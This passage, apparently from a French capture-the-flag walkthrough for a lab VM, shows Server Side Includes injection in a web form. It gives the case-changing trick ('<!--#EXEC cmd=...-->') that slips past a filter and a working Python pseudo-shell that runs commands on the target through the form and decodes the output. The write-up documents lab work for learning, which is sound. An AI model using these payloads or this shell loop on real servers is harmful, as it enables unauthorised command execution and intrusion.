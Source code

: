 La dernière ligne nous retourne le path */var/www/html/convert.me/public\_html/receipt.shtml*  

En revanche les directives qui nous intéressent vraiment ne marchent pas :  

```html
<!--#include virtual="ssi.shtml"-->
```

mais après un peu d'acharnement on découvre que la suivante fonctionne :  

```html
<!--#Include virtual="ssi.shtml"-->
```

De même exec en minuscule échoue :  

```html
<!--#exec cmd="ls" -->
```

mais tout en majuscules cela fonctionne :  

```html
<!--#EXEC cmd="ls" --> 
```

![SSI injenction result](https://raw.githubusercontent.com/devl00p/blog/master/images/hastevm.png)

A Python was good
-----------------

On a donc de l'exécution de commande mais pas très sexy. L'étape suivante est d'uploader une backdoor digne de ce nom sur le serveur, malheureusement *curl* n'est pas présent et *wget* ne semblait pas aboutir (peut être liée à ma configuration cependant...)  

Pour m'aider j'ai écrit un pseudo-shell qui communique avec le formulaire :  

```python
import requests
from bs4 import BeautifulSoup
from base64 import b64decode

sess = requests.session()

while True:
    cmd = input("$ ").strip()
    if cmd.lower() == "exit":
        break
    params = {"xxx": "", "feedback": '<pre><!--#EXEC cmd="{}|base64" --></pre>'.format(cmd)}
    response = requests.post("http://192.168.1.36/receipt.php", data=params)
    soup = BeautifulSoup(response.text, "lxml")
    encoded = soup.find("pre").get_text(strip=True, separator='')
    print(b64decode(encoded).decode())
    print('')
```

La récupération de certaines données ne semblait pas fonctionner, c'est pour cela que je passe par une étape d'encodage puis décodage base64.  

